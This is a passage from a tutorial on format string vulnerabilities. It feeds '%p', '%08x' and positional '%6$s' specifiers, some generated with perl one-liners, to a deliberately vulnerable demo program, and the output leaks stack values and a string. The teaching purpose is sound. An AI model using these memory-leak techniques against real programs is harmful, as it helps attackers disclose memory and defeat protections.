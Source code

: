 ```bash
$ ./fsv-intro "%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|"
0xf7f027db|0xf7cc3a4f|0x566201b4|0x44434241|0x48474645|0x56621008|
0x539|0xffca5350|0xf7ec3ff4|(nil)|
```

As we have predicted, we can see here in the output the values of our local
variables, starting at position 4, after the garbage left by the arguments
padding. We can see the `b` values `0x44434241|0x48474645`, and then the `s`
string pointer `0x56621008` and finally the `i` integer `0x539`. We can verify
that the pointer `s` points to "Hello" string by providing a `%s` conversion
specification in the correct position which is the sixth in this case (may vary
in your machine):

```sh
$ ./fsv-intro "%08x|%08x|%08x|%08x|%08x|%s"
f7ef27db|f7cb3a4f|5658e1b4|44434241|48474645|Hello world!
```

There it is. We can also use a couple of tricks to avoid typing all the repeated
conversions. The first is to use the `%<arg-position>$s` modifier to indicate
which argument must be taken. In our example the string address is located at
the position of the sixth argument, so we can do the following:

```sh
$ ./fsv-intro '%6$s'
Hello world!
```

This can be convenient in certain situations, like when the input we can provide
is restricted to a few characters. The other trick is to generate the format
string with a program, like *perl*. We can use the `print` function of *perl* to
generate a format string in command line:

```sh
$ perl -e 'print "%08x|"x5 . "%s"'
%08x|%08x|%08x|%08x|%08x|%s
```

And we can use this command output as argument to our program:
```sh
$ ./fsv-intro $(perl -e 'print "%08x|"x5 . "%s"')
f7f167db|f7cd7a4f|566031b4|44434241|48474645|Hello world!
```

In this occasion creating the output by using *perl* implies more typing
that using the format string directly, but the advantage of using *perl* is that
this escalates well if want to create a bigger format string:
```sh
$ ./fsv-intro $(perl -e 'print "%08x|"x32')
f7f887db|f7d49a4f|5660c1b4|44434241|48474645|5660d008|00000539|ffcf8eb0|
f7f49ff4|00000000|f7d502d5|00000000|00000070|f7fabff4|f7d502d5|00000002|
ffcf8f64|ffcf8f70|ffcf8ed0|f7f49ff4|5660c19d|00000002|ffcf8f64|f7f49ff4|
5660eeec|f7fabb80|00000000|468bb82d|7393f23d|00000000|00000000|00000000|
```

> **Note**: Apart from *perl*, you could use *python* command to generate
> input. I personally prefer *perl* since python print introduces a newline
> character at the end (you can avoid this by specifying end="" option in print
> but is annoying).
